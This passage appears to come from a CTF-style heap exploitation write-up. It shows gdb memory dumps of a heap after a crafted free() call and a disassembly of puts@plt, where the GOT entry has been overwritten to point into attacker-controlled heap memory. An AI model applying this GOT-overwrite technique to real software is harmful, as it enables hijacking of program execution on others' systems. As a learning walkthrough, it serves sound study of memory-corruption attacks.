**After the first `free(c)` call**, `*` indicate some changes after the `free` call:
```bash
0x804c000:	0x00000000	0x00000029	0x41414141	0x42424242
0x804c010:	0x00000000	0x00000000	*0x0804b11c*	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x43434343	0x44444444	0x00000000	0x00000000
0x804c040:	0x00000000	*0x00000075*	*0x0804b194*	*0x0804b194*
0x804c050:	0x00000010	0x00000064	0x45454545	0x46464646
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	*0x00000074*	0x00000010	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000011	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

Examining the `puts` GOT
```bash
(gdb) disas 0x8048790
Dump of assembler code for function puts@plt:
0x08048790 <puts@plt+0>:	jmp    DWORD PTR ds:0x804b128
0x08048796 <puts@plt+6>:	push   0x68
0x0804879b <puts@plt+11>:	jmp    0x80486b0
End of assembler dump.
(gdb) x/1wx 0x804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:	0x0804c010
```
The GOT points to our heap address `0x0804c010`.

![](./assets/liveoverflow-successfully-overwrite-got.png)
